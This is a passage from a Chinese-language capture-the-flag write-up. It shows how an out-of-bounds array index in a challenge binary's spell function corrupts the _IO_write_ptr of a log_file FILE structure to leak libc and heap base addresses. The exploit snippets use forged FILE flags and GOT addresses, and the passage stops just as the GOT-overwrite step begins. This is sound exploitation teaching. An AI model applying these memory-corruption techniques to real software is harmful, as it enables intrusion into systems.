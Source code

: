 这里的目标地址，就是write函数要输出内容所在的地址，也就是说如果我们能控制log_file结构，就可以利用read_spell函数来泄漏libc基址以及heap的基址。

那么要如何做到控制log_file呢：

我们看到最下面有一个 *（v3 + 0x28）-=50ll，那么我们看一下v3是什么：

[![](https://p5.ssl.qhimg.com/t0197c6b24a35a8a50b.png)](https://p5.ssl.qhimg.com/t0197c6b24a35a8a50b.png)

这里是存在数组下标越界的

[![](https://p5.ssl.qhimg.com/t010e37b1a0aac7b725.png)](https://p5.ssl.qhimg.com/t010e37b1a0aac7b725.png)

而指向log_file的指针正好位于数组的上方，所以我们让v2为-2的话，*（v3 + 0x28）-=50ll 就会修改的是log_file中的_IO_write_ptr。那么我们就要利用它来修改_IO_write_ptr。

```
这里要注意每次fwrite后会将输出的长度加到_IO_write_ptr上，修改的时候一定要注意。
*f-&gt;_IO_write_ptr++ = ch;
```

通过调试可以知道log_file结构位于我们create的堆地址上方。

```
for i in range(12):
        spell(p, -2, 'x00')  
    spell(p, -2, 'x00' * 13)
    spell(p, -2, 'x00' * 9)

```

[![](https://p1.ssl.qhimg.com/t0146b26e780cb6557e.png)](https://p1.ssl.qhimg.com/t0146b26e780cb6557e.png)

可以看到此时已经将_IO_write_ptr修改为log_file结构内部的地址。

```
spell(p, 0, 'x00' * 3 + p64(0x231) + p64(0xfbad24a8))
    spell(p, 0, p64(puts_got) + p64(puts_got + 0x100))

    libc_addr = u64(p.recvn(6).ljust(8,'x00')) - puts_offest
```

利用上文说到的方法就可以泄漏出libc基址。

但是我们还需要heap基址用于got表修改，所以需要再泄漏一个地址，所以我们要使_IO_write_ptr指向泄漏libc之前的位置。

```
spell(p, -2, p64(0) + p64(0))
```

这样之后就可以用相同的方法再泄漏heap的基址：

```
spell(p, 0, 'x00' * 2 + p64(0x231) + p64(0xfbad24a8))
    spell(p, 0, p64(log_addr) + p64(puts_got + 0x100) + p64(0))
    heap_addr = u64(p.recvn(8)) - 0x10
```

接下来是修改got表部分：
